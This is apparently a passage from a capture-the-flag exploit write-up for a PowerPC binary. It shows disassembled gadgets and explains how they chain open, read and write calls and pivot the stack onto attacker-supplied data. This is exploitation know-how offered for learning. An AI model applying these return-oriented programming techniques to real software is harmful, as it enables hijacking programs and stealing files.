 ```
    100b85f8:	b0 09 01 ea 	ld      r16,2480(r1)
    100b85fc:	b8 09 21 ea 	ld      r17,2488(r1)
    100b8600:	c0 09 41 ea 	ld      r18,2496(r1)
    100b8604:	c8 09 61 ea 	ld      r19,2504(r1)
    100b8608:	d0 09 81 ea 	ld      r20,2512(r1)
    100b860c:	d8 09 a1 ea 	ld      r21,2520(r1)
    100b8610:	e0 09 c1 ea 	ld      r22,2528(r1)
    100b8614:	e8 09 e1 ea 	ld      r23,2536(r1)
    100b8618:	20 81 10 7c 	mtocrf  8,r0
    100b861c:	d0 0a 01 e8 	ld      r0,2768(r1)
    100b8620:	f0 09 01 eb 	ld      r24,2544(r1)
    100b8624:	f8 09 21 eb 	ld      r25,2552(r1)
    100b8628:	00 0a 41 eb 	ld      r26,2560(r1)
    100b862c:	08 0a 61 eb 	ld      r27,2568(r1)
    100b8630:	10 0a 81 eb 	ld      r28,2576(r1)
    100b8634:	18 0a a1 eb 	ld      r29,2584(r1)
    100b8638:	20 0a c1 eb 	ld      r30,2592(r1)
    100b863c:	28 0a e1 eb 	ld      r31,2600(r1)
    100b8640:	30 0a c1 c9 	lfd     f14,2608(r1)
    100b8644:	38 0a e1 c9 	lfd     f15,2616(r1)
    100b8648:	40 0a 01 ca 	lfd     f16,2624(r1)
    100b864c:	48 0a 21 ca 	lfd     f17,2632(r1)
    100b8650:	50 0a 41 ca 	lfd     f18,2640(r1)
    100b8654:	58 0a 61 ca 	lfd     f19,2648(r1)
    100b8658:	60 0a 81 ca 	lfd     f20,2656(r1)
    100b865c:	68 0a a1 ca 	lfd     f21,2664(r1)
    100b8660:	70 0a c1 ca 	lfd     f22,2672(r1)
    100b8664:	78 0a e1 ca 	lfd     f23,2680(r1)
    100b8668:	80 0a 01 cb 	lfd     f24,2688(r1)
    100b866c:	88 0a 21 cb 	lfd     f25,2696(r1)
    100b8670:	90 0a 41 cb 	lfd     f26,2704(r1)
    100b8674:	98 0a 61 cb 	lfd     f27,2712(r1)
    100b8678:	a0 0a 81 cb 	lfd     f28,2720(r1)
    100b867c:	a8 0a a1 cb 	lfd     f29,2728(r1)
    100b8680:	b0 0a c1 cb 	lfd     f30,2736(r1)
    100b8684:	b8 0a e1 cb 	lfd     f31,2744(r1)
    100b8688:	c0 0a 21 38 	addi    r1,r1,2752
    100b868c:	a6 03 08 7c 	mtlr    r0
    100b8690:	14 52 21 7c 	add     r1,r1,r10
    100b8694:	20 00 80 4e 	blr
```

We settled for this one as it gives you control over many registers. In short, it loads a lot of registers from the stack, including `r0` (which is afterwards moved into `lr`) and `r3`, `r4`, `r5` which are the registers used for parameters. This can be used to set arbitrary arguments and call arbitrary functions; we can use it 3 times in our ROPchain: to prepare args for open + execute open; to prepare args for read + execute read; to prepare args for write + execute write. Since the gadget is loading the values from the stack at a large offset, we decided to first search for a gadget that could let us read an arbitrary amount of data to use as our fake stack and then pivot there.    

This is where the function `cmd_set_name` comes in handy: its last instructions act as a perfect gadget for achieving what we need.
```
0x10000f2c <+168>:   ld      r9,96(r31)
0x10000f30 <+172>:   addi    r9,r9,262
0x10000f34 <+176>:   lwz     r10,104(r31)
0x10000f38 <+180>:   clrldi  r10,r10,32
0x10000f3c <+184>:   mr      r5,r10
0x10000f40 <+188>:   mr      r4,r9
0x10000f44 <+192>:   li      r3,0
0x10000f48 <+196>:   bl      0x10000be0 <read_exactly+8>
0x10000f4c <+200>:   nop
0x10000f50 <+204>:   addi    r1,r31,128
0x10000f54 <+208>:   ld      r0,16(r1)
```